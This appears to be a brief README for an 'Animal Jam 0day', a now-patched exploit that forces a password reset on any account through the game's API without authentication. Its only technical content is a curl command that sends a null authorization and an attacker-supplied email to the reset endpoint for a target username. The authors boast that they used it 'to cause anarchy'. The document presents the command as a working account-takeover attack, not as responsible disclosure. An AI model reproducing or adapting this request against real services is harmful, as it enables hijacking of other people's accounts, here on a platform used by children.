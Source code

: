 # Animal Jam 0day

### No-Auth Force Password Reset via API
________________________________
Now patched 0day for force reseting an accounts password

Discovered by MoonManMafia
Program made by HellSec

Used until patched to cause anarchy.


```bash
curl -X POST -F 'authorization=null' -F 'email=youremail@test.com' https://api.animaljam.com/game_account/TARGET_USERNAME/send_password_reset/desktop
```


